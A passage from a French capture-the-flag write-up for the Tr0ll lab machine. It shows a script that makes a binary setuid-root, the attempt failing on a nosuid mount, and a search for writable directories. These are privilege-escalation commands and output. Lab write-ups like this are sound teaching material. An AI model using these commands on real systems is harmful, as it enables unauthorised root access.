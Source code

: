 ```python
#!/usr/bin/env python
import os
import sys
try:
        os.system('chown root.root /run/shm/getroot; chmod u+s /run/shm/getroot')
except:
        sys.exit()
```

Après un moment on a bien récupéré les permissions :  

```plain
overflow@troll:/$ ls -l /run/shm/
total 2724
-rwsr-xr-x 1 root root 2786558 Aug 21 14:30 getroot
```

Seulement, à l'exécution...  

```plain
overflow@troll:/$ /run/shm/getroot 
overflow@troll:/$ id
uid=1002(overflow) gid=1002(overflow) groups=1002(overflow)
overflow@troll:/$ mount
/dev/sda1 on / type ext4 (rw,errors=remount-ro)
proc on /proc type proc (rw,noexec,nosuid,nodev)
sysfs on /sys type sysfs (rw,noexec,nosuid,nodev)
none on /sys/fs/cgroup type tmpfs (rw)
none on /sys/fs/fuse/connections type fusectl (rw)
none on /sys/kernel/debug type debugfs (rw)
none on /sys/kernel/security type securityfs (rw)
udev on /dev type devtmpfs (rw,mode=0755)
devpts on /dev/pts type devpts (rw,noexec,nosuid,gid=5,mode=0620)
tmpfs on /run type tmpfs (rw,noexec,nosuid,size=10%,mode=0755)
none on /run/lock type tmpfs (rw,noexec,nosuid,nodev,size=5242880)
none on /run/shm type tmpfs (rw,nosuid,nodev)  <--- FAIL
none on /run/user type tmpfs (rw,noexec,nosuid,nodev,size=104857600,mode=0755)
none on /sys/fs/pstore type pstore (rw)
systemd on /sys/fs/cgroup/systemd type cgroup (rw,noexec,nosuid,nodev,none,name=systemd)
```

Le dossier */run/shm* est monté en nosuid. On va chercher ailleurs un dossier dans lequel on peut écrire :  

```plain
overflow@troll:/$ find / -type d -writable 2> /dev/null | grep -v /proc
/tmp
/run/user/1002
/run/shm
/run/lock
/var/tmp
/sys/fs/cgroup/systemd/user/1002.user/9.session
/sys/fs/cgroup/systemd/user/1002.user/8.session
```
